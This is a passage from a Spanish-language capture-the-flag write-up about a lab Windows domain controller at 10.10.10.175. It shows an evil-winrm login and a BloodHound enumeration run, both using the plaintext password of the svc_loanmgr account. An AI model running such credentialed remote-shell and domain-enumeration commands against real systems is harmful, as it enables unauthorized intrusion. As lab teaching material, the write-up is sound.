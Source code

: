 ``evil-winrm -i 10.10.10.175 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'``
![37](Images/37.png)

Si realizamos una enumeración desde dentro no vemos nada interesante, por lo que vamos a tirar de ``BloodHound``. Como el DC tiene un servicio DNS corriendo no es necesario que compartamos sharphound para enumerar.

``bloodhound-python -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!' -d EGOTISTICAL-BANK.LOCAL -c all -ns 10.10.10.175``
![38](Images/38.png)
